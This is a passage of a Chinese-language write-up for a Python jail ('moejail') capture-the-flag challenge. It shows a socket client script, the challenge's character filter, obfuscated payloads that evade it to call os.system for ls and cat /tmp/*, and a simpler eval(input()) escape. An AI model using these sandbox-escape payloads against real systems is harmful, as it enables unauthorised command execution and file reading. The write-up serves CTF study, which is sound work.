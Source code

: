 ```python title="moejail.py"
        try:
            received = conn.recv(4096).decode()
            if not received:
                break
            print(received, end="")
        except EOFError:
            break


commands = []
commands.append("")  # 依据需要添加指令

for com in commands:
    send_receive(com)

# 关闭连接
conn.close()
```

我们只需要修改 port 和 commands 即可。

> if re.search(r'["\'0-8bd]|[^\x00-\xff]', code): print("Nope")

比赛时我写的命令非常丑陋：

```python
# ls
commands.append(
    "__import__(list(type({})(os=9))[False]).system(list(type({})(ls=9))[False])"
)
# ls /tmp
# commands.append(
#     "__import__(list(type({})(os=9))[False]).system(list(type({})(ls=9))[False]+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+list(type({})(tmp=9))[False])"
# )
# # cat /tmp/*
# commands.append(
#     "__import__(list(type({})(os=9))[False]).system(list(type({})(cat=9))[False]+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+list(type({})(tmp=9))[False]+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])]))+chr(len(list(type({})(aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa=()))[len([])])))"
# )
```

分三次执行了这三条 python 命令，居然也过了。

后来发现有简单地多的：

```python
commands.append("eval(input())")

commands.append("__import__('os').system('cat /tmp/*')")
```


[^1]: 你都写 misc 了，会点 pwn 怎么了（）